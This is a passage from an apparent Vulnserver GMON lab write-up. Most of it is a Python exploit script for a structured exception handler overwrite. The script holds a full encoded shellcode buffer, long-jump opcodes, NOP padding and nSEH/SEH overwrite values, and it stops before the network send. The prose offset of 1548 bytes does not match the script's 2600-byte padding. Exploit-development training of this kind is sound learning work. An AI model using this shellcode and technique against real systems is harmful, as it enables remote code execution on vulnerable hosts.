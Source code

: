 ## Exploitation

Our shellcode should be placed after ```1548 bytes``` in the exploit

Make sure you test it in debugger and add some extra padding NOPS if needed

Lets craft our final exploit,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ cat exploit-1.py 
import socket, sys

# opcodes foe long jump to reach ESP+0xdc
long_jmp=b""
long_jmp+=b"\x83\xc4\x6e"
long_jmp+=b"\x83\xc4\x6e"
long_jmp+=b"\xff\x24\x24"

# shellcode
buf= b""
buf+=b"\xb8\xbb\xf1\x65\xd4\xdd\xc1\xd9\x74\x24\xf4\x5e\x31"
buf+=b"\xc9\xb1\x52\x31\x46\x12\x03\x46\x12\x83\x55\x0d\x87"
buf+=b"\x21\x55\x06\xca\xca\xa5\xd7\xab\x43\x40\xe6\xeb\x30"
buf+=b"\x01\x59\xdc\x33\x47\x56\x97\x16\x73\xed\xd5\xbe\x74"
buf+=b"\x46\x53\x99\xbb\x57\xc8\xd9\xda\xdb\x13\x0e\x3c\xe5"
buf+=b"\xdb\x43\x3d\x22\x01\xa9\x6f\xfb\x4d\x1c\x9f\x88\x18"
buf+=b"\x9d\x14\xc2\x8d\xa5\xc9\x93\xac\x84\x5c\xaf\xf6\x06"
buf+=b"\x5f\x7c\x83\x0e\x47\x61\xae\xd9\xfc\x51\x44\xd8\xd4"
buf+=b"\xab\xa5\x77\x19\x04\x54\x89\x5e\xa3\x87\xfc\x96\xd7"
buf+=b"\x3a\x07\x6d\xa5\xe0\x82\x75\x0d\x62\x34\x51\xaf\xa7"
buf+=b"\xa3\x12\xa3\x0c\xa7\x7c\xa0\x93\x64\xf7\xdc\x18\x8b"
buf+=b"\xd7\x54\x5a\xa8\xf3\x3d\x38\xd1\xa2\x9b\xef\xee\xb4"
buf+=b"\x43\x4f\x4b\xbf\x6e\x84\xe6\xe2\xe6\x69\xcb\x1c\xf7"
buf+=b"\xe5\x5c\x6f\xc5\xaa\xf6\xe7\x65\x22\xd1\xf0\x8a\x19"
buf+=b"\xa5\x6e\x75\xa2\xd6\xa7\xb2\xf6\x86\xdf\x13\x77\x4d"
buf+=b"\x1f\x9b\xa2\xc2\x4f\x33\x1d\xa3\x3f\xf3\xcd\x4b\x55"
buf+=b"\xfc\x32\x6b\x56\xd6\x5a\x06\xad\xb1\xa4\x7f\xd9\xc1"
buf+=b"\x4d\x82\x21\xe4\x19\x0b\xc7\x82\x31\x5a\x50\x3b\xab"
buf+=b"\xc7\x2a\xda\x34\xd2\x57\xdc\xbf\xd1\xa8\x93\x37\x9f"
buf+=b"\xba\x44\xb8\xea\xe0\xc3\xc7\xc0\x8c\x88\x5a\x8f\x4c"
buf+=b"\xc6\x46\x18\x1b\x8f\xb9\x51\xc9\x3d\xe3\xcb\xef\xbf"
buf+=b"\x75\x33\xab\x1b\x46\xba\x32\xe9\xf2\x98\x24\x37\xfa"
buf+=b"\xa4\x10\xe7\xad\x72\xce\x41\x04\x35\xb8\x1b\xfb\x9f"
buf+=b"\x2c\xdd\x37\x20\x2a\xe2\x1d\xd6\xd2\x53\xc8\xaf\xed"
buf+=b"\x5c\x9c\x27\x96\x80\x3c\xc7\x4d\x01\x4c\x82\xcf\x20"
buf+=b"\xc5\x4b\x9a\x70\x88\x6b\x71\xb6\xb5\xef\x73\x47\x42"
buf+=b"\xef\xf6\x42\x0e\xb7\xeb\x3e\x1f\x52\x0b\xec\x20\x77"

nseh=b""
nseh=b"\xeb\xb6"
nseh+=b"\x90\x90"

seh=b"\xb4\x10\x50\x62"

# to overwrite buffer and EBP
payload=b""
payload+=b"\x90"*2600
payload+=buf
payload+=b"\x90"*(3549-70-len(payload))
payload+=long_jmp
payload+=b"\x90"*(3549-len(payload))
# to overwrite nSEH
payload+=nseh
```